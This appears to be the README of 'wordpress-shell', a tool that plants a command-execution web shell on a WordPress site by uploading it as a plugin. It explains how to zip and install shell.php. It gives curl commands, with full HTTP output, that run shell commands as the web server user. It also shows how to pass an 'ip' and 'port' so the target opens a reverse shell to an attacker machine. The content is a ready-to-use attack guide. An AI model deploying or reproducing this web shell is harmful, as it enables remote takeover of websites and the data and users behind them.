 wordpress-shell
===============

Cheap &amp; Nasty Wordpress Command Execution Shell.

Execute Commands as the webserver you are serving wordpress with!
Uploaded shell will probably be at <host>/wp-content/plugins/shell/shell.php

Install
=======
To install the shell, we are assuming you have administrative access to the Wordpress install and can install plugins.
Either upload the zip file located in the `dist/` directory, or create your own archive with:

```bash
$ zip -r shell.zip shell.php
  adding: shell.php (deflated 39%)
  
$ ls -lah shell.zip
-rw-r--r--  1 bob  staff   492B Aug 29 14:17 shell.zip
```

Once uploaded, navigate to `/wp-content/plugins/shell/shell.php` and provide the `cmd` or `ip` as an argument.

Sample Usage
============

```bash
root@kali:~# curl -v "http://192.168.0.1/wp-content/plugins/shell/shell.php?$(python -c 'import urllib; print urllib.urlencode({"cmd":"uname -a"})')"
* About to connect() to 192.168.0.1 port 80 (#0)
*   Trying 192.168.0.1...
* connected
* Connected to 192.168.0.1 (192.168.0.1) port 80 (#0)
> GET /wp-content/plugins/shell/shell.php?cmd=uname+-a HTTP/1.1
> User-Agent: curl/7.26.0
> Host: 192.168.0.1
> Accept: */*
> 
* additional stuff not fine transfer.c:1037: 0 0
* HTTP 1.1 or later with persistent connection, pipelining supported
< HTTP/1.1 200 OK
< Date: Thu, 28 Aug 2014 09:28:24 GMT
< Server: Apache/2.2.14 (Ubuntu)
< X-Powered-By: PHP/5.3.2-1ubuntu4
< Vary: Accept-Encoding
< Content-Length: 191
< Content-Type: text/html

Linux wordpress-server 2.6.32-21-generic-pae #32-Ubuntu SMP Fri Apr 16 09:39:35 UTC 2010 i686 GNU/Linux
```

Reverse shell (default port:443)
============
```bash
root@kali:~# curl -v "http://192.168.0.1/wp-content/plugins/shell/shell.php?$(python -c 'import urllib; print urllib.urlencode({"ip":"192.168.1.101"})')"
```

```bash
root@kali:~# curl -v "http://192.168.0.1/wp-content/plugins/shell/shell.php?$(python -c 'import urllib; print urllib.urlencode({"ip":"192.168.1.101","port":"1234"})')"
```



